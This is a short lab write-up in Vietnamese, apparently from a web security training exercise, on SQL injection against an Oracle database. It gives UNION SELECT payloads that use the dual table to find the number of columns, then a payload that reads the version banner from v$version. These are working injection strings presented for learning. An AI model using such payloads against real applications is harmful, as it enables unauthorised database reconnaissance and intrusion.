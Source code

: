 ## SQL injection attack, querying the database type and version on Oracle

1. Theo như đề bài, database của lab này là Oracle SQL nên truy vấn SELECT vào cũng chỉ định vào 1 table cụ thể. Trong Oracle cung cấp một build-in table ``dual`` nhằm mục đích truy vấn data ngoài bảng có sẵn.

2. Xác định số cột trong bảng category và xác định cột chứa kiểu dữ liệu string
Payload: 	
- ```' UNION SELECT 'test' from dual --```
- ```' UNION SELECT 'test', null from dual --```
- ```' UNION SELECT null, 'test' from dual --```

![Img1](\asset/../img/determine_col_num.png)

-> Xác định được số cột là 2 và cả 2 cột đều có kiểu string
3. Để xác định database version trong Oracle dùng câu query ``SELECT banner FROM v$version``
Payload: 	
- ```' UNION SELECT banner, null FROM v$version--```

![Img2](\asset/../img/done.png)